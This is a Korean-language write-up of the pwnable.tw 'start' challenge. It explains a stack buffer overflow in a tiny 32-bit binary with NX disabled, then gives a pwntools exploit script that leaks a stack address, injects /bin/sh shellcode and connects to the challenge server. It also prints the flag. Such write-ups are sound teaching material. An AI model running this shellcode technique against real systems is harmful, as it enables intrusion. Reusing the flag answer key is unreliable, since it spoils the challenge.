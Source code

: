 # 문제
***

start 바이너리의 checksec 결과는 다음과 같다. (peda 안에 구현된 checksec을 사용하면 NX가 걸려 있는 것으로 나옴...뭐지?)
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
```

file 명령어의 결과는 다음과 같다.
```
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```


statically linked이고 syscall 밖에 사용하지 않으므로 사용할 수 있는 라이브러리 함수가 없다.






어셈블리 코드 _start()
```
public _start
_start proc near
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch
mov     al, 3
int     80h             ; LINUX - sys_read
add     esp, 14h
retn
```

sys_read 함수에서 bof가 발생한다. (NX가 disabled되어 있기 때문에 stack에 실행 권한이 있다.)


또한 _start의 가장 처음에 실행되는 ```push esp```를 통해서 stack에 (ret 위치 +4) ret 위치 + 8을 가리키는 주소가 저장된다. 이 값을 leak하면 ASLR을 우회할 수 있다.

## exploit 방법
1. bof를 통해서 ret를 ```mov ecx, esp```의 위치로 바꾸면 sys_write를 통해서 ret 위치 +8 값을 읽어올 수 있다.
2. sys_write 다음에 호출되는 sys_read를 통해서 shellcode를 삽입하고 eip를 control한다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *

#context.log_level = 'debug'

shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
write_read=0x08048087

#p=process("/home/sungyun/round3/start/start")
p=remote("chall.pwnable.tw", 10000)

p.recvuntil("CTF:")

pay="A"*20
pay+=p32(write_read)

p.send(pay)

stack=u32(p.recv(4))
p.recv(16)

pay2="A"*20
pay2+=p32(stack+20)
pay2+="\x90"*10
pay2+=shell

p.send(pay2)

p.interactive()
```

flag : FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}

(/home/start/에 존재)

